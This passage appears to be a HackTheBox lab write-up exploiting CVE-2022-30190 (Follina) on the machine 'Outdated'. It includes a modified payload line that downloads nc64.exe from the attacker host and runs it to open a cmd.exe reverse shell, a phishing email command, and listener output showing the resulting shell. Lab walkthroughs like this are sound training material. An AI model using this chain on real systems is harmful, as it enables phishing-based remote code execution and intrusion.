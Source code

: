 ```bash
➜  outdated python3 -m http.server 80                                                                                                         
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.175 - - [16/Aug/2022 09:05:43] code 404, message File not found
10.10.11.175 - - [16/Aug/2022 09:05:43] "GET /pwn HTTP/1.1" 404 -
```

The machine is indeed fixed and now we get callbacks! However I had huge problems to get this next part to fly.

We want to utilize the CVE-2022-30190 (MSDT Follina) to download malicious scripts via en embeded link.
To do this we use [John Hammonds](https://github.com/JohnHammond/msdt-follina) script which will create a malicious `.doc` file, host a webserver with needed html payload, and will start a netcat listener for you.

The payload will try to download ``nc64.exe`` and upload it to the victim, which will then be used to create a reverse shell. 
The code for this points towards John Hammonds Github, so since this is HackTheBox we need to change that to point to our local attacking machine. 

This is row 111 in `follina.py` after editing:
```
command = f"""Invoke-WebRequest http://10.10.14.2:8888/nc64.exe -OutFile C:\\Windows\\Tasks\\nc.exe; C:\\Windows\\Tasks\\nc.exe -e cmd.exe {serve_host} {args.reverse}"""
```

We can now execute `follina.py` and on the first row we'll find the staging directory - it looks something like this `[+] copied staging doc /tmp/67gup9zc`.

**Copy nc64.exe** to ``/tmp/67gup9zc/www`` and now you're ready to send your email. 

```bash
➜  msdt-follina ls -al /tmp/67gup9zc/www
total 64
drwxr-xr-x 2 void void  4096 Aug 19 13:04 .
drwxr-xr-x 4 void void  4096 Aug 19 12:54 ..
-rw-r--r-- 1 void void  4689 Aug 19 12:54 index.html
-rwxr-xr-x 1 void void 45272 Aug 19 13:04 nc64.exe

➜  msdt-follina sendEmail -t itsupport@outdated.htb -f 0xpthree@exploit.se -s mail.outdated.htb -u PleaseWork -m 'http://10.10.14.2/'
Aug 19 12:54:31 void sendEmail[17349]: Email was sent successfully!

➜  msdt-follina python3 follina.py -i tun0 -p 80 -r 4444     
[+] copied staging doc /tmp/67gup9zc
[+] created maldoc ./follina.doc
[+] serving html payload on :80
[+] starting 'nc -lvnp 4444' 
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.175] 49822
Microsoft Windows [Version 10.0.19043.928]
(c) Microsoft Corporation. All rights reserved.

C:\Users\btables\AppData\Local\Temp\SDIAG_9fb3a047-99c4-4779-8d48-a154f6f5936e>whoami
outdated\btables
```
